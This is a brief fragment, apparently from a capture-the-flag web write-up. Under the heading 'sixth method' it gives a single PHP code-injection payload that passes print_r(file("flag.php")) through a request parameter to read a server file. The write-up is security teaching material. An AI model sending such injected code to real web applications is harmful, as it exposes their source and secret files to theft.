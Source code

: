 ![image-20240120214708460](image/image-20240120214708460.png)

第六种：

```
c=print_r(file("flag.php"));
```
